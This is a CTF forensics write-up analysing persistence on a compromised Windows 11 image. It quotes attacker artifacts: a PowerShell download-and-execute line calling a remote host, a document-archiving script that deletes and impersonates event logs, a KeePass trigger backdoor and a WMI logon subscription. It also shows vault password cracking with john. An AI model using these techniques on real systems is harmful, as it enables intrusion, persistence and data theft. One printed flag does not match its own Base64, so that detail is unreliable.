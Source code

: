 # The Quiet Fruit

 📝 _Category_ : Forensics  - 💯 _Number of points_ : 97

## Challenge Description

_As a forensic analyst, your mission is to identify all persistence mechanisms implanted on a compromised Windows 11 device._

_The flag is split into three parts: INS_PART1{part1}, INS_PART2{part2}, and INS_PART3{part3}._
_The final flag is obtained by concatenating the three parts: INS{part1part2part3}.

_Note: There’s a one-time easter egg hidden in this challenge (as usual) — only the first person to find it will win a goody 😉 - Send me the easter flag in PM on Discord._

We were provided with a ZIP file containing a disk extraction made using [KAPE](https://www.kroll.com/en/insights/publications/cyber/kroll-artifact-parser-extractor-kape), a forensic tool designed for rapid artifact collection and parsing.

## Part 1 - Policy-Based Execution

Upon analyzing the extracted C drive files, I quickly noticed that the `Users` directory was empty, suggesting possible cleanup, evasion techniques, or simply that no user profiles were present in the extracted disk image. Checking installed applications in `C\Program Files\`, the only non-default program was **KeePass Password Safe 2**.  Digging deeper, I found two interesting policy files in its directory:

- `KeePass.config.enforced.xml`
- `KeePass.config.xml`

Inspecting `KeePass.config.enforced.xml`, I discovered an XML configuration specifying an automated execution mechanism:

```xml
<Configuration xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
<Application>
<TriggerSystem>
<Triggers>
<Trigger>
<Guid>YDo4UTpYMEywCLHDCJImtw==</Guid>
<Events>
<Event>
<TypeGuid>1M7NtUuYT/KmqeJVJh7I6A==</TypeGuid>
<Parameters/>
</Event>
</Events>
<Conditions/>
<Actions>
<Action>
<TypeGuid>2uX4OwcwTBOe7y66y27kxw==</TypeGuid>
<Parameters>
<Parameter>cmd.exe</Parameter>
<Parameter>SU5TX1BBUlQxe0tlM1BAcyRCYWNrRDAwcn0=</Parameter>
<Parameter>False</Parameter>
<Parameter>1</Parameter>
<Parameter/>
</Parameters>
</Action>
</Actions>
</Trigger>
</Triggers>
</TriggerSystem>
</Application>
</Configuration>
```

The **Base64-encoded string** caught my eye. Decoding it using **CyberChef** revealed the first flag:

**Flag 1:** `INS_PART1{Ke3P@sc@BackD00r}`

## Part 2 - PowerShell Logs & Malicious Service

Remembering previous challenges, I checked PowerShell logs, typically stored in `C:\Windows\System32\winevt\logs`. With only 380 events, it was manageable.

Two key logs stood out:

### Log 1 - Suspicious PowerShell Download (Event ID 600)

```powershell
HostApplication=powershell -nop -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.100.101:3000/CreateService.ps1')
```

This indicated a remote script execution.

### Log 2 - Execution of a Suspicious Script (Event ID 600)

```powershell
HostApplication=powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Users\User\AppData\Roaming\Microsoft\WindowsBackup.ps1
```

Unfortunately, the script content wasn’t on disk. However, checking **`Microsoft-Windows-PowerShell`** logs (Event ID 4104), I found the executed PowerShell script:

```powershell
while ($true) {
    try {
        Compress-Archive -Path $env:USERPROFILE\Documents\* -DestinationPath C:\Windows\System32\winevt\logs\a.zip -Force
        Remove-Item -Path "C:\Windows\System32\winevt\logs\Microsoft-Windows-Hyper-V-VID-Admin.evtx" -Force
        Rename-Item -Path "C:\Windows\System32\winevt\logs\a.zip" -NewName "Microsoft-Windows-Hyper-V-VID-Admin.evtx" -Force
    } catch {}
    Start-Sleep -Seconds 86400  # 24h
}
```

This script:

- Continuously **archives user documents**
- Stores them in a **fake .evtx log file**, likely for exfiltration or local backup
- Deletes actual log files for stealth

Extracting the fake log:

```bash
mv C\Windows\System32\winevt\logs\Microsoft-Windows-Hyper-V-VID-Admin.evtx ./a.zip
unzip ./a.zip
```

Inside, I found:

- `flag.txt`
- `VeryConfidential.kdbx` (KeePass vault)

**Flag 2:** `INS_PART2{N@ughTyS3rv!ce}`

## Part 3 - WMI Persistence

I felt close to solving the last flag. I merged event logs using [Merge_the_events.ps1](https://github.com/abhinav-eyesOnglass/evtx/blob/master/Merge_the_events.ps1):

```powershell
.\Merge_the_events.ps1 -FolderPath QuietFruitLogs
```

Filtering between **16:25 - 16:30**, I found a **WMI Event Subscription**:

```powershell
instance of __EventFilter
{
    Query = "SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_LogonSession'";
};
instance of CommandLineEventConsumer
{
    CommandLineTemplate = "cmd.exe /c C:\Users\User\Downloads\ChromeSetup.exe";
    Name = "ChromeUpdater";
};
```

This mechanism leverages **`__EventFilter`** to monitor logon sessions and triggers **`CommandLineEventConsumer`** to run `ChromeSetup.exe` whenever a user logs in, ensuring persistence.

Decoding another **Base64-encoded string**, I found:

**Flag 3:** `INS_PART3{WMI_Always_Does_The_Job}`

## Easter Eggs

Using the keepass2john:

```bash
python keepass2john.py VeryConfidential.kdbx > VeryConfidential.txt

john --format=keepass VeryConfidential.txt
```

John finds that password is `Sexyme`

Simply open the vault using the password, there is one entry called "Easter Egg" with the flag in it.

**Easter Egg Flag** : `INSOTP{E@st3rEgG!!!}`

## Final Flag

Concatenating all parts as instructed:

```
INS{Ke3P@sc@BackD00rN@ughTyS3rv!ceWMI_Always_Does_The_Job}
```

### Alternative Solution - Grepping Encoded Flags

Some players took a **faster but less investigative** approach by **grepping for Base64-encoded “INS”** or **strings-ing all binary files**. While effective for a CTF, my approach prioritized forensic methodology over speed, mimicking a real-world investigation.

**Final Thoughts:**

- Loved the mix of **policy-based execution, PowerShell abuse, and WMI persistence**.
- The **fake .evtx file** hiding exfiltrated data was a clever trick.
- It was a satisfying challenge with **real-world forensic relevance**!

<p align="center">
  <img src="images/MemeB64ChallResolved.png" />
</p>
